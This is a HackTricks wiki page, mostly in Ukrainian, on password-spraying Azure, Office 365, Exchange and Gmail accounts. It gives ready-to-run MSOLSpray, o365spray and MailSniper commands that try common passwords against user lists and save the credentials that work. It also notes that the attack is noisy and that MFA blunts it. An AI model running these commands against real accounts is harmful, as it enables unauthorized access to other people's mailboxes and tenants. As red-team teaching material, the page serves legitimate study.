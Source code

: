 # Az - Password Spraying

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Password Spray

В **Azure** це можна зробити проти **різних API кінцевих точок**, таких як Azure AD Graph, Microsoft Graph, Office 365 Reporting webservice тощо.

Однак, зверніть увагу, що ця техніка є **дуже шумною** і Blue Team може **легко її виявити**. Більше того, **примусова складність паролів** та використання **MFA** можуть зробити цю техніку практично марною.

Ви можете виконати атаку password spray за допомогою [**MSOLSpray**](https://github.com/dafthack/MSOLSpray)
```powershell
. .\MSOLSpray\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\validemails.txt -Password Welcome2022! -Verbose
```
Або з [**o365spray**](https://github.com/0xZDH/o365spray)
```bash
python3 o365spray.py --spray -U validemails.txt -p 'Welcome2022!' --count 1 --lockout 1 --domain victim.com
```
Або з [**MailSniper**](https://github.com/dafthack/MailSniper)
```powershell
#OWA
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
#EWS
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
#Gmail
Invoke-PasswordSprayGmail -UserList .\userlist.txt -Password Fall2016 -Threads 15 -OutFile gmail-sprayed-creds.txt
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
